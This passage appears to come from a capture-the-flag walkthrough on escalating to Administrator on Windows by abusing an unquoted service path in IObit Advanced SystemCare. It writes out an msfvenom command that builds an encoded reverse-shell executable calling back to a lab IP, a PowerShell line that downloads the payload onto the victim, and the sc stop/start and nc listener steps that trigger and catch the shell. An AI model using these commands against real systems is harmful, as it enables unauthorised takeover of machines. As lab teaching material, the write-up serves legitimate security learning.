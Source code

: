 sc stop AdvancedSystemCareService9

Shortly followed by;

sc start AdvancedSystemCareService9

Once this command runs, you will see you gain a shell as Administrator on our listener!

Create payload:
msfvenom -p windows/shell_reverse_tcp lhost=10.8.82.167 lport=5678 -e x86/shikata_ga_nai -f exe -o Advanced.exe

Download payload from victim machine:
powershell -c "Invoke-WebRequest -Uri http://10.8.82.167/Advanced.exe -Outfile Advanced.exe"

Vulnerability: Unquoted Service Paths

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.
For example, for the path C:\Program Files\Some Folder\Service.exe Windows will try to execute:
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
To list all unquoted service paths (minus built-in Windows services)

Therefore download the "Advanced.exe" file into C:\Program Files (x86)\IObit.
Set up a nc, port 5678 on attacking machine.
Then restart the service. You'll get a reverse shell!